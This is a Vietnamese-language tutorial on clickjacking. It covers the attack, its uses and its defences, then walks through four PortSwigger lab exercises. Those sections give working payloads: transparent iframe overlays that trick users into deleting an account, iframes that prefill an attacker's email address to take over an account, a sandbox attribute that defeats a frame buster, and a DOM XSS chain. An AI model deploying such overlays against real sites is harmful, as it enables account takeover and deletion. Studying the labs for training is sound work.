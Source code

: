 # Clickjacking

Nhân dịp trên mạng đang nổi trội những người thân bạn bè pay acc fb ngay trong 1 đêm thì mình có cảm hứng để làm về lổ hỗng [Clickjacking](https://portswigger.net/web-security/clickjacking)

## Clickjacking là gì ?
Nói ngắn gọn dễ hiểu nhất là một hình thức tấn công đánh lừa người dùng nhấp chuột vô ý vào một đối tượng trên website(ví dụ cụ thể ở đây là fb). Khi nhấp chuột vào một đối tượng trên màn hình, người dùng nghĩ là mình đang click vào đối tượng đó nhưng thực chất họ đang bị lừa click vào một đối tượng khác > đã bị làm mờ hay ẩn đi. Kẻ tấn công có thể sử dụng kỹ thuật tấn công này cho nhiều mục đích. Đánh cắp tài khoản người dùng, lừa click vào quảng cáo để kiếm tiền, lừa like page hoặc nguy hiểm hơn là cài một webshell lên máy chủ web.
## Có thể khai thác lỗ hổng này như thế nào ??
```
  + Hacker có thể lấy cắp thông tin đăng nhập của bạn thông qua 1 cái form fake trông có vẻ giống giống trang thật.
  + Lừa người dùng mở web-cam hoặc microphone bằng cách hiển thị các yếu tố vô hình trên trang cài đặt Adobe Flash.
  + Phát tán worms trên các trang mạng xã hội.
  + Phát tán malware bằng cách chuyển hướng người dùng tới link download chương trình độc hại.
  + Quảng cáo lừa đảo.
```
## Cách ngăn chặn Clickjacking

Clickjacking tấn công bằng cách bao bọc trang web mà người dùng tin tưởng bởi *iframe* sau đó render ẩn phần tử này lên trên cùng. Để ngăn chặn lỗ hổng này các bạn có thể sử dụng các cách sau :
```
  + X-Frame-Options
  + Content Security Policy
  + Frame-Killing

``` 
## Clickjacking Lab
  
### Lab: Basic clickjacking with CSRF token protection
Bài lab đã mô tả rõ ràng cho chúng ta cách thức để exploit lỗ hổng này chính là khai thác nút Delete Account bằng cách tạo ra 1 nút ảo đè lên và đánh lừa người dùng. 
Account : wiener:peter

Có 1 vài chỉ dẫn về struct của html mà chúng ta sẽ exploit như sau : 
```
<head>
  <style>
    #target_website {
      position:relative;
      width:128px;
      height:128px;
      opacity:0.00001;
      z-index:2;
      }
    #decoy_website {
      position:absolute;
      width:300px;
      height:400px;
      z-index:1;
      }
  </style>
</head>
...
<body>
  <div id="decoy_website">
  ...decoy web content here...
  </div>
  <iframe id="target_website" src="https://vulnerable-website.com">
  </iframe>
</body>
```
Tuy nhiên để phù hợp với HTML của trang web mà chúng ta đã đăng nhập vào và tương ứng với nút DeleteAccount thì chúng ta sẽ thay đổi như sau :
```
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:520px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acd31f081eacf731806c6b3f00a900a1.web-security-academy.net/my-account"></iframe>

```




### Lab: Clickjacking with form input data prefilled from a URL parameter
Như mô tả thì đây là bài mở rộng của lab trên nên về cơ bản các bước chúng ta cũng làm tương tự như trên.

Tuy nhiên vì đây là chức năng update email. chúng ta có thể dùng nó để update email của chúng ta và leak thông tin.
Dùng burpSuite để bắt lại request khi update email.



Điều đó làm thay đổi cấu trúc của link mà chúng ta chèn vào trong khung HTML được dựng: 
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://acfc1f101e46e458806d5c3d00b0004c.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Phần *email=hacker@attacker-website.com* chính là phần chúng ta thêm email của hacker để leak thông tin.



### Lab: Clickjacking with a frame buster script
Bài lab này đã cho chúng ta biết dùng lại kỹ thuật của 2 bài lab trên là vô dụng, và đưa ra 1 hướng mới cho chúng ta khai thác.
```
Frame busting techniques are often browser and platform specific and because of the flexibility of HTML they can usually be circumvented by attackers. As frame busters are JavaScript then the browser's security settings may prevent their operation or indeed the browser might not even support JavaScript. An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. When this is set with the allow-forms or allow-scripts values and the allow-top-navigation value is omitted then the frame buster script can be neutralized as the iframe cannot check whether or not it is the top window:

<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>
```
Như vậy là chúng ta đã có hướng giải quyết cho vấn đề, chúng ta dùng sandbox = allow-forms để vô hiệu hóa.
```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:440px;
       left:50px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms"
src="https://ac6f1fa31ecac23380c4079b000d00fe.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

Để có được payload như trên phải căn chỉnh nhiều lần để rút ra được những thông số như thế.


### Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

```
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.0001;
       z-index: 2;
   }
   div {
       position:absolute;
       top:635px;
       left:60px;
       z-index: 1;
   }
</style>
<div>click me</div>
<iframe
src="https://acb41f951f633851803d2471000c00bf.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```
